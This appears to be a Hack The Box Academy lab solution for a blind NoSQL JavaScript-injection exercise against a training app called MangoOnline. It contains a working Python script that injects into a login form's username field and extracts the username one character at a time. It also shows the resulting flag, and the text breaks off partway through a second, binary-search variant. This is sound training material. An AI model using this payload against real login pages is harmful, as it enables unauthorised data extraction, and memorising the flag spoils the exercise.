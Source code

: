 ## Question 1

### "Follow along with this section, develop the script locally and dump the username from MangoOnline."

After spawning the target machine, students need to use the provided script in the module's section to dump the username from "MangoOnline":

Code: python

```python
#!/usr/bin/env python3

import requests
from urllib.parse import quote_plus

def oracle(r):
    response = requests.post("http://STMIP:STMPO/", headers = {"Content-Type": "application/x-www-form-urlencoded"}, data = f"""username={(quote_plus('" || (' + r + ') || ""=="'))}&password=test""")
    return "Logged in as" in response.text

username = "HTB{"
i = 4
while username[-1] != "}":
    for character in range(32, 127):
        if oracle(f'this.username.startsWith("HTB{{") && this.username.charCodeAt({i}) == {character}'):
            username += chr(character)
            break
    i += 1

assert(oracle(f'this.username == \`{username}\`') == True)
print(f"Username: {username}")
```

After running the script, students will attain the flag `HTB{N0_m0r3_md5,I'm_Bu!Lt_d1fF3reNt}`:

Code: shell

```shell
python3 oracle.py
```

```
┌─[us-academy-2]─[10.10.14.207]─[htb-ac413848@htb-2vaaw2my1h]─[~]
└──╼ [★]$ python3 oracle.py

Username: HTB{N0_m0r3_md5,I'm_Bu!Lt_d1fF3reNt}
```

Alternatively, students can use the binary search algorithm:

Code: python

```python
#!/usr/bin/python3

import requests
from urllib.parse import quote_plus

def oracle(r):
    response = requests.post("http://STMIP:STMPO/", headers = {"Content-Type": "application/x-www-form-urlencoded"}, data = f"""username={(quote_plus('" || (' + r + ') || ""=="'))}&password=test""")
    return "Logged in as" in response.text

username = "HTB{"
i = 4

```